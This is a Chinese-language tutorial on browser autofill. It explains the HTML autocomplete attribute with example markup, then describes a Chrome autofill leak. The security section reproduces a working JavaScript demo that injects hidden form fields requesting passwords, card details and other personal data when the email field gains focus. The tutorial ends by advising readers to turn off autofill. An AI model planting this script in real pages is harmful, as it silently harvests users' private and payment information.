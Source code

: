 [![返回目录](https://i.postimg.cc/50XLzC7C/image.png)](https://parg.co/UHU)

# 浏览器安全机制

# AutoComplete: 自动填充

自动填充(Autofill )是个非常重要的特性，它能帮助用户节省很多填写表单的时间，Google 也曾调查得出过结论[users complete forms up to 30% faster](https://developers.google.com/web/updates/2015/06/checkout-faster-with-autofill?hl=en)。我们首先来讨论下自动填充的工作原理，以及如何构建跨浏览器的自动填充表单。

早年各个浏览器之间对于自动填充并没有统一的标准，后来 HTML5 标准中加入了对于`autocomplete`属性的支持，以协调浏览器对于表单域的识别。最初`autocomplete`属性仅支持`on`与`off`两种取值，默认情况下是会启动自动填充功能以方便浏览器会将用户提交过的表单值记录下来以便复用。后续 HTML 标准中允许加入更多的[标识值](https://html.spec.whatwg.org/multipage/forms.html#autofill)，这些标识值会更加精确地告诉浏览器应将哪些记录值对应到哪些表单。譬如我们经常需要在网页上填写地址信息，如果我们希望浏览器能够记录下常用地址信息并且自动补全，那么可以使用如下声明方式：

```html
<textarea
  name="shipping-address"
  autocomplete="shipping street-address"
></textarea>
<input
  type="text"
  name="shipping-city"
  autocomplete="shipping address-level2"
/>
<input
  type="text"
  name="shipping-state"
  autocomplete="shipping address-level1"
/>
<input
  type="text"
  name="shipping-country"
  autocomplete="shipping country-name"
/>
<input
  type="text"
  name="shipping-postal-code"
  autocomplete="shipping postal-code"
/>
```

其他常见的自动填充的使用场景还包括电话号码、邮箱地址、即时通信账户等，完整的自动填充标识声明规范为：

```
[section-](optional) [shipping|billing](optional) [home|work|mobile|fax|pager](optional) [autofill field name]
```

其中`[home|work|mobile|fax|pager]`仅被用于电话、邮箱等场景。而完整的应用场景譬如是填写收货地址的收件人电话时：

```
<label for="foo">Mobile phone for delivery</label>
<input type="text" name="foo" id="foo" autocomplete="section-red shipping mobile tel">
```

最后，我们来看下自动填充在笔者电脑上的现实效果: ![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/E2941AAA-E9DC-4A9A-AA10-8506044FBBB2.png)

## 安全威胁

自动填充是个非常方便地浏览器特性，不过该特性在 Chrome 上也会存在一定的信息泄露的风险。Chrome 最近才修复了某个久负盛名[漏洞](https://yoast.com/autocomplete-security/)。简单而言，黑客能够利用自动填充窃取你并不想提交给该网站的信息，就如下面这个动图：

![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/1-WChv_tXK8rqUASVNxrqNSw.gif)

Github 用户 [haampie](https://gist.githubusercontent.com/haampie/3ba6ebb5fd9f71d2f8e9fb841e52740d/raw/d2278671539ab5987a184603b0b3dd9942ba66e0/inject.js) 使用如下脚本演示了该漏洞：

```js
var autocompletes = [
  'name',
  'honorific-prefix',
  'given-name',
  'additional-name',
  'family-name',
  'honorific-suffix',
  'nickname',
  'username',
  'new-password',
  'current-password',
  'organization-title',
  'organization',
  'street-address',
  'address-line1',
  'address-line2',
  'address-line3',
  'address-level4',
  'address-level3',
  'address-level2',
  'address-level1',
  'country',
  'country-name',
  'postal-code',
  'cc-name',
  'cc-given-name',
  'cc-additional-name',
  'cc-family-name',
  'cc-exp',
  'cc-exp-month',
  'cc-exp-year',
  'cc-csc',
  'cc-type',
  'transaction-currency',
  'transaction-amount',
  'language',
  'bday',
  'bday-day',
  'bday-month',
  'bday-year',
  'sex',
  'url',
  'photo',
  'tel',
  'tel-country-code',
  'tel-national',
  'tel-area-code',
  'tel-local',
  'tel-local-prefix',
  'tel-local-suffix',
  'tel-extension',
  'impp'
];

emailField.addEventListener('focus', function() {
  var wrap = autocompletes.reduce(function(wrapper, field) {
    var input = document.createElement('input');

    // Make them not focussable
    input.tabIndex = -1;
    input.autocomplete = field;

    wrapper.appendChild(input);
    return wrapper;
  }, document.createElement('div'));

  // Hide the wrapper
  wrap.classList.add('hidden');
  form.appendChild(wrap);

  // Inject the autocompletes once
  this.removeEventListener('focus', arguments.callee);
});
```

作者是建议大家关闭 Chrome 的自动填充功能，主要步骤为：

- 进入 Chrome 设置：`chrome://settings/autofill`
- 关闭当前模态窗口
- 反选自动填充选项

![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/1-NKyNK5fQWXeLHLCOD_ZDaA.png)
